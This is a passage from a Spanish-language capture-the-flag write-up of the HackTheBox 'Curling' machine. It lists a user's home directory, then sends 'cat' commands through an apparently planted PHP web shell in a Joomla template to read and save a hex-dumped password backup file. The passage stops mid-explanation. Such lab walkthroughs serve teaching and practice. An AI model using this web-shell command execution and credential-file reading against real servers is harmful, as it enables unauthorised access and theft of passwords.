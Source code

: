 ```text
drwx------ 3 floris floris 4.0K May 22  2018 .gnupg
drwxrwxr-x 3 floris floris 4.0K May 22  2018 .local
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
drwxr-x--- 2 root   floris 4.0K May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1.1K May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
```

Ese archivo _password\_backup_ luce bastante sospechoso, veamos su contenido:

# password\_backup

```text
xbytemx@laptop:~/htb/curling$ http http://10.10.10.150/templates/beez3/jsstrings.php?x=cat%20/home/floris/password_backup
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 626
Content-Type: text/html; charset=UTF-8
Date: Mon, 07 Jan 2019 05:25:39 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding

00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

Vamos a salvarlo para trabajarlo offline:

```text
xbytemx@laptop:~/htb/curling$ http http://10.10.10.150/templates/beez3/jsstrings.php?x=cat%20/home/floris/password_backup > password_backup
```

Como podimos ver por la salida del `cat` se trata de una salida de hexdump, por lo que usemos `xxd` para convertirlo a binario y concatenemos con `file` para saber que tenemos por aqui:
